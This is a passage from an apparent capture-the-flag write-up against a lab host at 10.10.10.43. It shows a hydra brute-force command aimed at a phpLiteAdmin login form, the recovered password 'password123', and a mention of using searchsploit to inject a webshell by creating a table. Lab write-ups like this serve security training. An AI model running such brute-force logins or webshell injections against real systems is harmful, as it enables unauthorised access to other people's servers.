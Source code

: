 
Using `hydra` we get the password for the phpliteadmin

```shell
$ hydra 10.10.10.43 -l test -P /usr/share/seclists/Passwords/twitter-banned.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```

![](../assets/Pasted%20image%2020250611123534.png)

`password123`

![](../assets/Pasted%20image%2020250611122840.png)

Using `searchsploit` we find a way to inject a webshell by creating a table.

![](../assets/Pasted%20image%2020250611125115.png)
